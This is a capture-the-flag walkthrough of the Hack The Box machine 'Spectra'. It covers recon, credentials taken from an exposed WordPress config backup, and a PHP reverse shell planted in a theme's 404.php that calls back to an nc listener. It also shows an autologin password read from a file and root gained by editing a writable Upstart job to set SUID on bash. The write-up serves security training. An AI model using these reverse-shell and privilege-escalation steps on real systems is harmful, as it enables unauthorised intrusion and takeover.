

# Spectra


---

## Intro

| Box Info           |                        |
| :----------------- | ------------------------------------------------------ |
| 🔗 Name             | [Spectra](https://app.hackthebox.com/machines/spectra) |
| 🎯 Target IP        | `10.129.240.86`                                        |
| 📈 Difficulty level | 🟩Easy                                                  |
| 🐧OS                | Linux                                                  |

---

## Recon

```bash
mkdir -p $HOME/htb/spectra/nmap
cd $HOME/htb/spectra
```

Start Reconnaissance

```bash
# Fast full TCP port scan
nmap -p- --min-rate 10000 10.129.240.86
```

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 14:32 CEST
Nmap scan report for 10.129.240.86
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

```bash
# Scan open ports with default scripts and version detection
nmap -p 22,80,3306 -sC -sV -vv -oA nmap/spectra 10.129.240.86
```

```bash
# Nmap 7.95 scan initiated Sat Jun  7 14:33:05 2025 as: /usr/lib/nmap/nmap --privileged -p 22,80,3306 -sC -sV -vv -oA nmap/spectra 10.129.240.86
Nmap scan report for 10.129.240.86
Host is up, received reset ttl 63 (0.035s latency).
Scanned at 2025-06-07 14:33:05 CEST for 39s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDF1xom8Ljz30NltgYXTRoVI2ymBlBZn849bnFYNKwDgwvW9naxom8pe9mzV+I8pAb5AHeVdok7szaIke7nXINK5GdHw+P529fkRNfmq4V63RUmYNKeAZmfGubCQDwGHP0Gj8S/C1lCMp/9kdNPxDv8aamWTeVCTuqDOwMy0GmEGRyk9gaZjwA2T3kIVD/TjLVu5hkpwdoQHr0JYhJRqLKHqZqdcZY7vqUFuECqcgVZ0Sj52/VnT5lis+N3hZK1MqJW2vlPhdlXhESF2O2Z0gzVtnAMB8yT68pbcRUbl6OI0NC6ucKzSIb6g90vwF1kVlj22GXTcfu0r3tyCFlusJFnuhgAIrTax8eQu5W+vLAAM0pbMizVNOEzd4VtBpLBHunEkzDknUZn3k9X3XP9NsIReMW+T8XiLTSxZuve8EWdaIfXoAeUlj0Tsy2iwYfLk6XaO5xssZgHFvB4QnUvpdt2ybsfTEd1aySikuetak9pl7yECFD8jgqT6ybzG1qsTMsdsJz6o871al1r0Dyd76R0Dr3+dO7AhLJtPszZHJXK3YqCqF/qU6kNIPMTIXdiVEuYQ1JieYzyjN3CivzVUPFnvOu2+dD5kFQSQNqR8kHGRqZXW0oUQsDUh1GQsb+iO8sFMDIAqr1SfAKQEpCPpSFl6H1wtNHW8pJJNwj1FkKNXw==
80/tcp   open  http    syn-ack ttl 63 nginx 1.17.4
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.4
3306/tcp open  mysql   syn-ack ttl 63 MySQL (unauthorized)

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  7 14:33:44 2025 -- 1 IP address (1 host up) scanned in 38.78 seconds
```

Visiting the `http://10.129.240.86/` webpage

```bash
# Webpage source code
<h1>Issue Tracking</h1>

<h2>Until IT set up the Jira we can configure and use this for issue tracking.</h2>

<h2><a href="http://spectra.htb/main/index.php" target="mine">Software Issue Tracker</a></h2>
<h2><a href="http://spectra.htb/testing/index.php" target="mine">Test</a></h2>
```

`http://spectra.htb/main/` is a WordPress site.

`http://spectra.htb/testing/index.php` has an error:

- **Error establishing a database connection**

Add the found values to the `/etc/hosts` file

```bash
# e.g. adeguate with found values, hostnames, ffuf
sudo sh -c 'echo "10.129.240.86 spectra.htb" >> /etc/hosts' && ping -c 3 spectra.htb

# At the end of the box
# To clean up the last line from the /etc/hosts file
sudo sed -i '$ d' /etc/hosts
```


Run `ffuf` to find the directories of the web server.

```bash
ffuf -u http://spectra.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```bash
                        [Status: 200, Size: 283, Words: 22, Lines: 7, Duration: 42ms]
index.html              [Status: 200, Size: 283, Words: 22, Lines: 7, Duration: 33ms]
main                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 34ms]
testing                 [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 34ms]
```

Let's browse `http://spectra.htb/testing/` - file listing is enabled



```bash
Index of /testing/
../
wp-admin/                                          10-Jun-2020 23:00                   -
wp-content/                                        10-Jun-2020 23:13                   -
wp-includes/                                       10-Jun-2020 23:13                   -
index.php                                          06-Feb-2020 06:33                 405
license.txt                                        10-Jun-2020 23:12               19915
readme.html                                        10-Jun-2020 23:12                7278
wp-activate.php                                    06-Feb-2020 06:33                6912
wp-blog-header.php                                 06-Feb-2020 06:33                 351
wp-comments-post.php                               02-Jun-2020 20:26                2332
wp-config.php                                      28-Oct-2020 05:52                2997
wp-config.php.save                                 29-Jun-2020 22:08                2888
wp-cron.php                                        06-Feb-2020 06:33                3940
wp-links-opml.php                                  06-Feb-2020 06:33                2496
wp-load.php                                        06-Feb-2020 06:33                3300
wp-login.php                                       10-Feb-2020 03:50               47874
wp-mail.php                                        14-Apr-2020 11:34                8509
wp-settings.php                                    10-Apr-2020 03:59               19396
wp-signup.php                                      06-Feb-2020 06:33               31111
wp-trackback.php                                   06-Feb-2020 06:33                4755
xmlrpc.php                                         06-Feb-2020 06:33                3133
```

Download the files locally

```bash
# All files and subdirs
wget -r -np -nH --cut-dirs=1 -P testing/ http://spectra.htb/testing/
```

```bash
grep -Ri administrator testing
# nothing important
grep -Ri password testing

cat testing/wp-config.php.save
```

```bash
# MySQL DB Credentials
DB_NAME - dev
devtest:devteam01
```

```bash
mysql -h spectra.htb -P 3306 -u devtest -p

# ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.14.5' is not allowed to connect to this MySQL server
```

Try the same password for the `administrator` user at the login page:

`http://spectra.htb/main/wp-login.php`

- it works with `administrator:devteam01`

Run a `WpScan` (just for fun)

```bash
mkdir wpscan

wpscan --url=http://spectra.thb/main --enumerate u
```

```bash
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://spectra.htb/main/ [10.129.240.86]
[+] Started: Sat Jun  7 15:06:35 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.4
 |  - X-Powered-By: PHP/5.6.40
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://spectra.htb/main/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://spectra.htb/main/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://spectra.htb/main/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://spectra.htb/main/?feed=rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://spectra.htb/main/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://spectra.htb/main/wp-content/themes/twentytwenty/
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=====================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] administrator
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jun  7 15:06:42 2025
[+] Requests Done: 53
[+] Cached Requests: 6
[+] Data Sent: 13.271 KB
[+] Data Received: 378.852 KB
[+] Memory used: 188.043 MB
[+] Elapsed time: 00:00:06
```

```bash
searchsploit worpress 5.4.2

Exploits: No Results
Shellcodes: No Results
Papers: No Results
```

---

## Exploitation

> - https://www.hackingarticles.in/wordpress-reverse-shell/

### Insert reverse shell into the WP theme

To perform a reverse shell using a WordPress 404 page, follow these steps:

1. Log in to the WordPress admin panel and navigate to the theme editor
2. Take note of the current theme being edited. Let's use an inactive theme, e.g. `Twenty Nineteen` and locate the `404.php` file within the theme's files
3. Replace the content of the `404.php` file with a PHP reverse shell code. For example, you can use a simple bash reverse shell or the code from `/usr/share/webshells/php/php-reverse-shell.php`, modifying the IP address and port to match the attacker machine's details.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./rev.php
subl ./rev.php
# Set
$ip = '10.10.14.5';
$port = 1234;

# Copy all the content and paste in the 404.php
```

Once the `404.php` file is updated with the reverse shell code, start a netcat listener on the attacker machine to receive the incoming connection. Access the modified `404.php` page by navigating to the appropriate URL, such as 

`http://spectra.htb/main/wp-content/themes/twentynineteen/404.php`

which will trigger the reverse shell.

### Shell as user nginx

```bash
rlwrap nc -nvlp 1234

# Open
# http://spectra.htb/main/wp-content/themes/twentynineteen/404.php
```

```bash
# Got Reverse shell

connect to [10.10.14.5] from (UNKNOWN) [10.129.240.86] 37162
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7513 32-Core Processor AuthenticAMD GNU/Linux
 07:21:57 up 8 min,  0 users,  load average: 0.01, 0.13, 0.09
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
bash: cannot set terminal process group (4291): Inappropriate ioctl for device
bash: no job control in this shell

nginx@spectra / $ id
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

```bash
cat /etc/*rele*

BUILD_NUMBER=22
CHROMEOVER_BUILD_COMMIT=829e617e7b8467c355f9bd61f87835bfeb0da547
CHROMIUMOS_MANIFEST_COMMIT=38c4f6ca60a47f7fabf0fcd5d6feabf349e3f002
CHROMIUM_BROWSER_COMMIT=ef24d0b3349c2324d18a3f32bc35d14e796aeddc
PIPELINE_TAG=prod
USE_FLAGS=-cros-debug beerover virtualbox
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
cat: /etc/wireless-regdb: Is a directory
```

```bash
ls -lah /opt

cat /opt/autologin.conf.orig
```

```bash
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end script
```

---

## Foothold

```bash
find / -type f -iname passwd 2>/dev/null

/usr/share/baselayout/passwd
/usr/bin/passwd
/etc/passwd
/etc/autologin/passwd
/etc/pam.d/passwd

cat /etc/autologin/passwd
SummerHereWeCome!!
```

```bash
cat /etc/passwd | grep -v false

root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

### Shell as user katie

- Get a shell as `katie`. SSH with `katie:SummerHereWeCome!!`

```bash
# From Kali
ssh katie@spectra.htb
```

```bash
# User Flag
cat /home/katie/user.txt
e89d2***************************
```

---

## Privilege Escalation

```bash
groups
katie developers

sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

`/sbin/initctl` is a control interface for the **Upstart init system** (used in some older Ubuntu and Debian systems, like Ubuntu ≤ 15.04). It manages services defined in `/etc/init/*.conf`. If you can **write or modify** an Upstart config file, you can escalate privileges.

```bash
sudo /sbin/initctl list
```

```bash
find / -type f -group developers 2>/dev/null -ls

ls -lah /etc/init/test.conf 
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test.conf

ls -lah /etc/init/*.conf | grep rw-rw
-rw-rw---- 1 root developers  478 Jun 29  2020 /etc/init/test.conf
```

### Shell as root

- Since `katie` is in the `developers` groups, `katie` can modify the `test.conf` service

```bash
sudo /sbin/initctl stop test

vim /etc/init/test.conf

# Under "script" add the following line
    chmod +s /bin/bash

# Run the service
sudo /sbin/initctl start test
```

- Get a shell as `root`:

```bash
/bin/bash -p
```

```bash
bash-4.3# id
uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
```

```bash
# Root Flag
cat /root/root.txt
d4451***************************
```

---

## Post Exploitation

```bash
cat script.sh
```

```bash
sudo mount -o rw,remount /
rm -f /usr/local/data/ib_logfile*
/usr/sbin/sshd
startnginx
/usr/local/bin/php5-fpm start
/usr/local/bin/mysqld_safe --bind-address=0.0.0.0 --user=chronos &
/usr/local/bin/vmtoolsd &

for i in {1..10};

do

iptables -F
iptables -X
iptables -t nat -F
iptables -t nat -X
iptables -t mangle -F
iptables -t mangle -X
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
stop powerd

sleep 15

done

stop ui

i=0

while true;

do

i=$((i+1))

sleep 60
/bin/cp -p /root/test.conf /etc/init/test.conf
/bin/cp -p /root/test.conf /etc/init/test1.conf
/bin/cp -p /root/test.conf /etc/init/test2.conf
/bin/cp -p /root/test.conf /etc/init/test3.conf
/bin/cp -p /root/test.conf /etc/init/test4.conf
/bin/cp -p /root/test.conf /etc/init/test5.conf
/bin/cp -p /root/test.conf /etc/init/test6.conf
/bin/cp -p /root/test.conf /etc/init/test7.conf
/bin/cp -p /root/test.conf /etc/init/test8.conf
/bin/cp -p /root/test.conf /etc/init/test9.conf
/bin/cp -p /root/test.conf /etc/init/test10.conf
/bin/cp -p /root/nodetest.js /srv/nodetest.js

if [[ "$i" -gt 10 ]]; then
  i=0
  /bin/rm -rf /usr/local/share/nginx/html/main/
  /bin/cp -rp /root/main /usr/local/share/nginx/html/
fi
done

```


---

## Extra

- [https://0xdf.gitlab.io/2021/06/26/htb-spectra.html](https://0xdf.gitlab.io/2021/06/26/htb-spectra.html)
- [Spectra - Ippsec](https://www.youtube.com/watch?v=mC7G3i2gV54)

------

